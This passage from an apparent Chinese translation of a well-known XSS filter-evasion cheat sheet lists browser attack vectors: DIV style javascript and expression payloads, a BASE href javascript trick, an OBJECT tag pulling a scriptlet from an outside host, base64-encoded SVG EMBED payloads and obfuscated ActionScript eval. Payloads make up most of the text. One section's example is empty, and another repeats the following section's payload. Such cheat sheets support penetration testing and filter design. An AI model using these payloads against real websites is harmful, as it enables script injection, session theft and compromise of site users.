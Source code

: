 > <DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">

**2.67.4. DIV表达式**

一个非常有效的对抗现实中的跨站脚本过滤器的变体是在冒号和"expression"之间添加一个换行：

> <DIV STYLE="width: expression(alert('XSS'));">

### 2.68.    html 条件选择注释块

只能在IE5.0及更高版本和IE渲染引擎模式下的Netscape 8.1生效。一些网站认为在注释中的任何内容都是安全的并且认为没有必要移除，这就允许我们添加跨站脚本攻击向量。系统会在一些内容周围尝试添加注释标签以便安全的渲染它们。如我们所见，这有时并不起作用：

> 

### 2.69.    BASE标签

在IE和安全模式下的Netscape 8.1有效。你需要使用//来注释下个字符，这样你就不会造成JavaScript错误并且你的XSS标签可以被渲染。同样，这需要当前网站使用相对路径例如"images/image.jpg"来放置图像而不是绝对路径。如果路径以一个斜杠开头例如"/images/image.jpg"你可以从攻击向量中移除一个斜杠（只有在两个斜杠时注释才会生效）：

> <BASE HREF="javascript:alert('XSS');//">

### 2.70.    OBJECT标签

如果允许使用OBJECT，你可以插入一个病毒攻击载荷来感染用户，类似于APPLET标签。链接文件实际是含有你XSS攻击代码的HTML文件:

> <OBJECT TYPE="text/x-scriptlet" DATA="<http://xss.rocks/scriptlet.html>"></OBJECT>

### 2.71.    使用EMBED标签加载含有XSS的FLASH文件

如果你添加了属性allowScriptAccess="never"以及allownetworking="internal"则可以减小风险（感谢Jonathan Vanasco提供的信息）:

> <EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

### 2.72.    使用EMBED SVG包含攻击向量

该示例只在FireFox下有效，但是比上面的攻击向量在FireFox下好，因为不需要用户安装或启用FLASH。感谢nEUrOO提供:

> <EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

### 2.73.    在FLASH中使用ActionScript混淆XSS攻击向量

> a="get";
>
> b="URL(\"";
>
> c="javascript:";
>
> d="alert('XSS');\")";
>
> eval(a+b+c+d);
